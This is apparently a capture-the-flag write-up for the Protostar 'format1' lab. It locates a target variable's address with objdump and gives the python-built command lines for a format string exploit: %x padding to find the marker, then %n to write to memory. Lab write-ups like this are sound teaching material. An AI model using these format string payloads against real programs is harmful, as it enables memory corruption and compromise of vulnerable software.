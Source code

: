 Now we need to modify global uninitialized variable that should be located in bss memory segment.

Address of target variable: 0x08049638

user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target


The idea is to overflow to stack with %x format symbols and get to the place in stack where initial agrument is stored. Payload starts with 'AAAA', so looking for 0x41414141 in output.

./format1 $(python -c "print 'AAAA' + 'BBBBB' + '%x.'*127 +'%x.'")

This way 0x41414141 is aligned with last %x.

Now replace 'AAAA' with pointer to target variable (memory address) and replace last %x with %n to write a number into target.

./format1 $(python -c "print '\x38\x96\x04\x08' + 'BBBBB' + '%x.'*127 +'%n.'")